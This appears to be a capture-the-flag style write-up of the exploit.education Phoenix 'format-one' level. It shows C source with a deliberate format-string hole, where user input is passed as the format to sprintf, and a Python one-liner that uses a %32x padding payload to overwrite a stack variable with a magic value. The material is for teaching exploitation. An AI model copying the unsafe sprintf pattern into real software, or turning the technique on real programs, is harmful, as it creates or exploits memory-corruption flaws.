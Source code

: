 # FORMAT ONE

## SOURCE CODE

```c
/*
 * phoenix/format-one, by https://exploit.education
 *
 * Can you change the "changeme" variable?
 *
 * Why did the Tomato blush? It saw the salad dressing!
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char dest[32];
    volatile int changeme;
  } locals;
  char buffer[16];

  printf("%s\n", BANNER);

  if (fgets(buffer, sizeof(buffer) - 1, stdin) == NULL) {
    errx(1, "Unable to get buffer");
  }
  buffer[15] = 0;

  locals.changeme = 0;

  sprintf(locals.dest, buffer);

  if (locals.changeme != 0x45764f6c) {
    printf("Uh oh, 'changeme' is not the magic value, it is 0x%08x\n",
        locals.changeme);
  } else {
    puts("Well done, the 'changeme' variable has been changed correctly!");
  }

  exit(0);
}
```

## STRATEGY

The strategy is the same for format-zero with the difference that the value in changeme must be equal to 0x45764f6c

## EXPLOIT

```shell
python -c 'import struct; print "%32x" + struct.pack("I", 0x45764f6c)' | ./format-one
```

You can manually check the result with gdb like we did in format-zero


